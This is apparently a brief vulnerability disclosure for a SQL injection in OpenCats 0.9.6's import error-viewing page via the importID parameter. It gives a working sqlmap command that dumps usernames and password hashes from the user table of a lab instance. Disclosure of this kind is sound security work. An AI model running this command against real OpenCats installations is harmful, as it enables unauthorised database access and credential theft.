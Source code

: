 #SQL injection vulnerability in OpenCats 'Import viewerrors' functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over entriesPerPage variable, which allows SQL injection in SELECT statement via GET 'importID' parameter.

#Poc
Decided to test this with sqlmap. Let's exfiltrate username and password hashes from the database.  

```
sqlmap -u "http://192.168.203.135/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=cl2201l24aihqlnch0jgnr4pd2" -T user -C user_id,user_name,password -p "importID" --flush-session --dump
```

https://user-images.githubusercontent.com/57464251/193700025-eea03a93-4b73-4b44-8a38-d93913954a59.mp4

